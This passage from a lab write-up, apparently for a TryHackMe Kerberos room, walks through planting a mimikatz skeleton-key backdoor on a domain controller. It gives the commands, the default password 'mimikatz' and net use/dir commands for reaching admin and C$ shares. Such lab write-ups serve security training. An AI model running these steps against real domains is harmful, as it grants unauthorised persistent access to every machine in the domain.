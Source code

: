 
## Task 8
---

Here we will be using a kerberos backdoor from mimikatz called a skeleton key.
As discussed in the task " A Kerberos backdoor acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password." once mimikatz is installed on the target it is rather simple to use.

simply follow these commands

To start Mimikatz
```cmd
mimikatz.exe
```

To check if your privilege is ok
```cmd
privilege::debug
```

![](/assets/images/thm/kerberos/mimikatz-priv.png)

To get your skeleton key
```cmd
misc::skeleton
```

![](/assets/images/thm/kerberos/mimikatz-skel.png)
now you will be able to access nearly anything you need or require. As stated in the task 'The default hash for a mimikatz skeleton key is _60BA4FCADC466C7A033C178194C03DF6_ which makes the password -"_mimikatz_" '

for example to access the admin share you could use this command.
```cmd
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```

to access directories you could use a command similar to:
```cmd
dir \\Desktop-1\c$ /user:Machine1 mimikatz
```


## Conclusion
---
And we are done! 
Over all I enjoyed this room and it was amazingly informative in these basic techniques on attacking kerberos.
Thank you for reading!